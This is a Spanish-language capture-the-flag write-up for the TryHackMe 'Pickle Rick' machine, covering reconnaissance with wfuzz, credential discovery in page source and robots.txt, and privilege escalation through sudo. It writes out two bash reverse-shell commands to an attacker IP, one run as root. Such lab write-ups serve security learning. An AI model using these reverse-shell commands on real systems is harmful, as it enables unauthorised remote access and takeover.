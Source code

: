 ```yaml
---
title : Máquina|<font color="#5d9b9b">Pickle Rick</font>
published : True
---
```


* <p>Nombre : Pickle Rick</p>
> Url : <a href="https://tryhackme.com/room/picklerick"> Pickle Rick </a>
>

<h2><font color="white"><center># pickleRick</center></font></h2>
* <p>Empezaremos viendo a que sistema operativo nos enfrentamos.</p>
<img src="/imgs/pickleRick/pickleRick1.jpg"/>
* <p> Vemos que el ttl es de 63 lo cual hace referencia a una maquina Linux, ahora veremos que puertos están abiertos.</p>
<img src="/imgs/pickleRick/pickleRick2.jpg"/>
* <p>Puerto 22/ssh y 80/http , ya intente conectarme por ssh pero me arroja permiso denyed, mirando el código del html de el puerto 80, me topo que en el código hay un usuario : <font color="yellow">R1ckRul3s</font></p>
<img src="/imgs/pickleRick/pickleRick3.jpg"/>
* <p>Ahora lo que haré sera enumerar directorios activos en la pagina web, con la herramienta <font color="gold">wfuzz</font></p>
> wfuzz -t 200 --hc=404 -c -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.181.144/FUZZ
>
<img src="/imgs/pickleRick/pickleRick4.jpg"/>
* <p>Vemos que directamente hay un robots.txt el cual al verlo en la pagnia web parece un tipo de contra.</p>
<img src="/imgs/pickleRick/pickleRick5.jpg"/>
* <p>Posterior mente me doy cuenta que existe un login.php</p>
<img src="/imgs/pickleRick/pickleRick6.jpg"/>
* <p>El cual con el usuario anterior encontrado y la contra me lleva a un panel con ejecución remota de comandos</p>
>/bin/bash -c  "bash -i >& /dev/tcp/10.18.27.215/444 0>&1"
<img src="/imgs/pickleRick/pickleRick7.jpg"/>
* <p>Lo cual me aprovecho de la ejecución remota de comando para hacerme una web Shell </p>
<img src="/imgs/pickleRick/pickleRick8.jpg"/>
* <p>Posteriormente me doy cuenta que el usuario www-data puede ejecutar cualquier comando</p>
> sudo -l
<img src="/imgs/pickleRick/pickleRick9.jpg"/>
* <p>Entonces me hago una reverse Shell con el sudo</p>
> sudo /bin/bash -c "bash -i >& /dev/tcp/10.18.27.215/445 0>&1"
<img src="/imgs/pickleRick/pickleRick10.jpg"/>
* <p>Ok maquina <font color="red">Vulnerada</font></p>

